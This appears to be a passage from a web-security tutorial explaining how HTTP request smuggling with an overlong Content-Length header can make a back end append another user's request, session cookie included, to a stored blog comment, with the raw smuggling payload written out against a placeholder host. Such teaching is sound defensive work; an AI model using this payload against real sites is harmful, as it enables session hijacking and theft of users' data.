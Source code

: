 To perform it, you need to smuggle a request that submits data to the storage  function with the parameter containing the data to store positioned in the last request. Suppose an app uses the following request to submit a blog post comment, which is stored and displayed on the blog:

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net

```

For example, you smuggle an equivalent request with an overly long Content-Length header and the comment parameter positioned at the end:

```http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

The CL header of the smuggled request indicates the body will be 400 bytes long, but only sending 144 bytes. The back end server will wait for the remaining 256 bytes before issuing the response, or else issue a timeout if it does not arrive quick enough.

When another request is sent to the back end server down the same connection, the first 256 bytes are effectively appended to the smuggled request as follows:

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
... 
```
